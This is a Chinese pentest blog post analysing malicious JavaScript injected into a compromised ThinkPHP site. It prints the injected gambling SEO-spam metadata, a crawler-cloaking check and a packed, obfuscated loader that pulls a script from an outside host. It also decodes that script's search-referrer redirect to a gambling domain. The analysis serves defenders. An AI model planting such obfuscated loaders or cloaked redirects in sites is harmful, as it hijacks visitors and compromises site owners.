```yaml
---
date: 2019-08-19 10:17:46
title: 记一次网页 js 挂马
description: 网页挂马一般是向页面中加入恶意代码进行转跳、下载木马病毒等操作。
categories:
  - Pentest
tags:
  - javascript
---
```


### 0x00 常见网页挂马方式
* iframe 框架挂马  
    简单来说就是加 iframe 标签
* script 挂马  
    通过各种办法加载 js 代码
* htm 文件挂马
    上传 htm 文件，然后用 script 引入
* js 挂马
    上传 js 文件，然后用 script 引入
* 图片伪装挂马
    比较新颖的一种挂马隐蔽方法
* 等等。。。

### 0x01 发现被插入恶意 js
前几天在做子域名搜集，搜集完后提取 title，结果看到了一个站点的 title 不正常

网站是 tp5 的，应该是前段时候 tp5 出现命令执行时被入侵的

查看网页 html 源码发现 title 和 meta 的 description 都被改了
```
<title>&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#24179;&#21488;&#44;&#30495;&#38065;&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#44;&#25250;&#24196;&#29275;&#29275;&#25163;&#28216;&#19979;&#36733;</title>
<meta name="keywords" content="&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#24179;&#21488;&#44;&#30495;&#38065;&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#44;&#25250;&#24196;&#29275;&#29275;&#25163;&#28216;&#19979;&#36733;"/>
<meta name="description" content="&#25250;&#24196;&#29275;&#29275;&#12304;&#55;&#49;&#49;&#49;&#48;&#46;&#99;&#111;&#109;&#12305;&#29616;&#20844;&#21496;&#25317;&#26377;&#19968;&#25209;&#26377;&#20960;&#21313;&#24180;&#21644;&#22810;&#25250;&#24196;&#29275;&#29275;&#25216;&#24039;&#24180;&#40831;&#36718;&#27979;&#37327;&#20013;&#24515;&#21046;&#36896;&#32463;&#39564;&#30340;&#20154;&#21592;&#44;&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#35268;&#21017;&#38598;&#25104;&#20102;&#22269;&#20869;&#39030;&#23574;&#40831;&#36718;&#27979;&#37327;&#25216;&#26415;"/>
```

解码一下
```
<title>抢庄牛牛游戏平台,真钱抢庄牛牛游戏,抢庄牛牛手游下载</title>
<meta name="keywords" content="抢庄牛牛游戏平台,真钱抢庄牛牛游戏,抢庄牛牛手游下载"/>
<meta name="description" content="抢庄牛牛【71110.com】现公司拥有一批有几十年和多抢庄牛牛技巧年齿轮测量中心制造经验的人员,抢庄牛牛游戏规则集成了国内顶尖齿轮测量技术"/>
```

### 0x02 简单分析
紧接着有一段 js 代码
```
<script>if(navigator.userAgent.toLocaleLowerCase().indexOf("baidu") == -1){document.title ="XXXX-首页"}</script>
<script type="text/javascript">eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('m["\\n\\b\\2\\e\\f\\7\\l\\0"]["\\o\\4\\8\\0\\7"](\'\\j\\1\\2\\4\\8\\3\\0 \\0\\k\\3\\7\\d\\6\\0\\7\\p\\0\\5\\h\\c\\t\\c\\1\\2\\4\\8\\3\\0\\6 \\1\\4\\2\\d\\6\\9\\0\\0\\3\\1\\v\\5\\5\\1\\a\\9\\e\\a\\9\\s\\g\\2\\b\\f\\5\\u\\r\\q\\3\\g\\h\\1\\6\\i\\j\\5\\1\\2\\4\\8\\3\\0\\i\');',32,32,'x74|x73|x63|x70|x72|x2f|x22|x65|x69|x68|x66|x6f|x61|x3d|x75|x6d|x2e|x6a|x3e|x3c|x79|x6e|window|x64|x77|x78|x71|x38|x32|x76|x6b|x3a'.split('|'),0,{}))
</script>
```

第一个 script 标签中判断了 UA 中是否有 baidu 这个字符，应该是判断是否为百度爬虫，不是的话就显示正常的 title

第二个 script 标签的 js 被简单加密了
```
(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('m["\\n\\b\\2\\e\\f\\7\\l\\0"]["\\o\\4\\8\\0\\7"](\'\\j\\1\\2\\4\\8\\3\\0 \\0\\k\\3\\7\\d\\6\\0\\7\\p\\0\\5\\h\\c\\t\\c\\1\\2\\4\\8\\3\\0\\6 \\1\\4\\2\\d\\6\\9\\0\\0\\3\\1\\v\\5\\5\\1\\a\\9\\e\\a\\9\\s\\g\\2\\b\\f\\5\\u\\r\\q\\3\\g\\h\\1\\6\\i\\j\\5\\1\\2\\4\\8\\3\\0\\i\');',32,32,'x74|x73|x63|x70|x72|x2f|x22|x65|x69|x68|x66|x6f|x61|x3d|x75|x6d|x2e|x6a|x3e|x3c|x79|x6e|window|x64|x77|x78|x71|x38|x32|x76|x6b|x3a'.split('|'),0,{}))
```

先在 chrome 的 Console 运行后得到
```
"window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x77\x72\x69\x74\x65"]('\x3c\x73\x63\x72\x69\x70\x74 \x74\x79\x70\x65\x3d\x22\x74\x65\x78\x74\x2f\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74\x22 \x73\x72\x63\x3d\x22\x68\x74\x74\x70\x73\x3a\x2f\x2f\x73\x66\x68\x75\x66\x68\x32\x2e\x63\x6f\x6d\x2f\x6b\x38\x71\x70\x2e\x6a\x73\x22\x3e\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e');"
```

python 将 16 进制转化为字符串
```
>>> '''window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x77\x72\x69\x74\x65"]('\x3c\x73\x63\x72\x69\x70\x74 \x74\x79\x70\x65\x3d\x22\x74\x65\x78\x74\x2f\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74\x22 \x73\x72\x63\x3d\x22\x68\x74\x74\x70\x73\x3a\x2f\x2f\x73\x66\x68\x75\x66\x68\x32\x2e\x63\x6f\x6d\x2f\x6b\x38\x71\x70\x2e\x6a\x73\x22\x3e\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e');'''
window["document"]["write"]('<script type="text/javascript" src="https://sfhufh2.com/k8qp.js"></script>');
```

可以看到上面那段加密的代码作用是引入 k8qp.js 这个 js 文件，而这个文件中有下面这一段 js
```
document.writeln("<script LANGUAGE=\"Javascript\">");
document.writeln("var s=document.referrer");
document.writeln(
    "if(s.indexOf(\"baidu\")>0 || s.indexOf(\"sogou\")>0 || s.indexOf(\"soso\")>0 ||s.indexOf(\"sm\")>0 ||s.indexOf(\"uc\")>0 ||s.indexOf(\"bing\")>0 ||s.indexOf(\"yahoo\")>0 ||s.indexOf(\"so\")>0 )"
);
document.writeln("location.href=\"https://71110tz.com/\";");
document.writeln("</script>");
```

判断了 Referer，是 baidu、sogou、soso 之类的话 location.href 跳转到恶意站点 https://71110tz.com/

<br>
以上

<br>
#### Reference(侵删)：
* [https://www.test404.com/post-655.html?wafcloud=1](https://www.test404.com/post-655.html?wafcloud=1?_blank)
